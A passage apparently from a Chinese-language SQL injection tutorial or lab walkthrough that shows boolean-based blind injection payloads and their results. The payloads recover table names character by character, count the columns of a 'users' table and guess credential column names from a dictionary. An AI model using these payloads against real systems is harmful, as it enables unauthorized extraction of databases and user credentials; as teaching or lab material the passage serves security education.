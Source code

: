 ```sql
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>101;#
 ✅ exists

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>103;#
 ❌ MISSING

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=102;#
 ❌ MISSING

1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=103;#
 ✅ exists
```

可得第一张表的第一个字符 ASCII 码为 103，对应字符为 `g`

依次推断，第一张表的名称为 `guestbook`

同理，得到第二张表的名称为 `users`

4️⃣ 推断表中的字段名

4️⃣➡️1️⃣ 推断 users 表的字段个数

```sql
1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>10;#
 ❌ MISSING

1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>5;#
 ✅ exists

1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')>8;#
 ❌ MISSING

1' and (select count(column_name) from information_schema.columns where table_schema=database() and table_name='users')=8;#
 ✅ exists
```

4️⃣➡️2️⃣ 推断 users 表中的字段名

字段名比较多的情况下，再一个一个推断比较费劲，可以使用字典的方式，比如我们要获取用户名和密码的话，可用字典：

- 用户名：username/user_name/uname/u_name/user/name/... 
- 密码：password/pass_word/pwd/pass/...

```sql
1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='username')=1;#
 ❌ MISSING

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user_name')=1;#
 ❌ MISSING

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='uname')=1;#   
 ❌ MISSING

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='u_name')=1;#
 ❌ MISSING
```